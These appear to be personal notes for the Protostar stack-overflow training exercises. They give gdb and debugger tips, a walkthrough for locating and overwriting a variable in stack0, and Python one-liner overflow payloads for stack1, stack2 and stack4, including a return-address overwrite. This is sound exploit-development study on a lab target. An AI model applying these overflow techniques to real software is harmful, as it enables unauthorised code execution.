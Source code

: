 gdb> info address <function-name>
  ^gets the address of the function

gdb> set disassembly-flavor intel
      ^if just using gdb without enhancement features


________________________________________________________________________
________________________________________________________________________



# Useful when Reading Memory
https://github.com/ickerwx/pattern/blob/master/pattern
^save this into a file name `pattern.py`

##Use case:
	$ python pattern.py create [#]
                                ^length of pattern

##See what ASCII looks like in hex
	$ echo <ascii-string> | hexdump -v

________________________________________________________________________
________________________________________________________________________

[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6


# stack0: Overwrite Variable 
------------------------------------------------------------------------
[Simple]: python -c "print('A' * 77)" | ./stack0

[Detailed]: Step-by-Step
1. `chmod +x stack0`
2. `gdb stack0`
3. gdb> break main
4. gdb> run
5. Dump the whole main method into assembly
   gdb> u main 15
   gef> cs main 15
6. Observe this assembly line
    `mov   eax, dword ptr [rbp - 4]`
                               ^look at this
                               this is the location of the variabe
                               variable `modified`

   In a decompiler (Ghidra/Cutter), you'll see that this assembly line
   points to the line closest to `modified = 0;` in Ghidra it's `local_c = 0;`

7. pwndbg/gef> hexdump $rbp-4 4
                              ^look at 4 bytes since `int` is 4 bytesc

   should get something like:
   `+0000 0x7fffffffde3c  00  │.`
                          ^see that `modified` was initalized as 0


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4
[Shellcode]: http://shell-storm.org/shellcode/